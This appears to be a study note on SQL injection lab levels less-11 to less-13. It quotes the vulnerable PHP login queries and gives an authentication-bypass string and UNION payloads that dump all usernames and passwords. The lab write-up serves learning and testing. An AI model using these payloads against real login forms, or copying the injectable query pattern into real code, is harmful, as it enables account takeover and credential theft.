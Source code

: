 ```yaml
---
categories:
    - Sqlli
tags:
    - Sqlli
    - PHP 
---
```

### less-11
##### index.php

```
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```
万能密码：

```
uname=admin'or'1'='1#
```
![image](https://note.youdao.com/yws/res/11180/951BFC2A1D124C1B91D42E835D1F7BF2)

#### payload

```
uname=admin&passwd=1'union select 1,(SELECT GROUP_CONCAT(username,password) FROM users)#&submit=Submit
```
![image](https://note.youdao.com/yws/res/11188/E2593A5A3AE2488EB626DDA1CA9C7242)

### less-12
##### index.php
```
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
```

#### payload

```
uname=admin&passwd=1")union select 1,(SELECT GROUP_CONCAT(username,password) FROM users)#&submit=Submit
```
### less-13
##### index.php
了 联合查询的注入方式
```
$uname=$_POST['uname'];
$passwd=$_POST['passwd'];
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
if($row){
  
    
}else{
print_r(mysqli_error($con1));
}
```